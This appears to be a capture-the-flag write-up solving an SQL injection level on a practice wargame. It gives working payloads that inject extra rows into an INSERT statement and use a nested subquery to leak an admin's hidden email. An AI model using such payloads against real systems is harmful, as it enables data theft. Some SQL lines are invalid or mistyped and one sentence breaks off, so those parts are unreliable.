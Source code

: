```yaml
---
custom_edit_url: null
sidebar_position: 29
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/e4b143de-c5d8-47ee-bed0-8bd3a124e8cb)

We are provided with the SQL query:

```sql
INSERT INTO prob_phantom VALUES(0,'{$_SERVER[REMOTE_ADDR]}','{$_GET[joinmail]}')
```

This time, the table is updated based upon the parameter value that we provide.
If the `no=1`, the email will be displayed as `**************`.

In order to solve this challenge, we need to insert multiple records at the same time.
This can be done by listing multiple records in parentheses after `VALUES`, as follows:

```sql
INSERT INTO [table_name] VALUES(1, 1, 1), (2, 2, 2), (3, 3, 3);
```

If we provide the following URI parameter:

```
?joinmail=test'), (0, '[Public IP address]', (SELECT 1 WHERE 1=1)) -- -
```

You can find your public IP address from [here](https://www.whatismyip.com/).

The resultant query becomes:

```sql
INSERT INTO prob_phantom VALUES(0,'{$_SERVER[REMOTE_ADDR]}','test'), (0, '[Public IP address]', (SELECT 1 WHERE 1=1)) -- -')
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/c0edf3a4-1f2c-46ab-bdfe-c9a23f9e5a0d)

As we can see, the two records have been inserted into the table.

In order to retrieve the email however, we will have to store it into a variable. In order to

## Storing value in variable

```sql
SELECT email FROM prob_phantom WHERE no=1 AS temp
```

In this example, the email is stored in the `temp` variable.

If we provide the following URI parameter:

```
?joinmail=test'), (0, '[Public IP address]', (SELECT * FROM (SELECT email FROM prob_phantom WHERE no=1) AS temp)) -- -
```

The resultant query becomes:

```sql
INSERT INTO prob_phantom VALUES(0,'{$_SERVER[REMOTE_ADDR]}','test'), (0, '[Public IP address]', (SELECT * FROM (SELECT email FROM prob_phantom WHERE no=1) AS temp)) -- -')
```

The above query will store

![3](https://github.com/Kunull/Write-ups/assets/110326359/3dc3f1fe-2b74-4923-b804-537b2db133a1)

```
admin_secure_email@rubiya.kr
```

If we provide the following URI parameter:

```
?email=admin_secure_email@rubiya.kr
```

The resultant query becomes:

```sql
SELECT email FROM prob_phantom WHERE no=1 AND email='?email=admin_secure_email@rubiya.kr'
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/e49215ee-88f1-4da7-abf9-55acdc7b5f77)
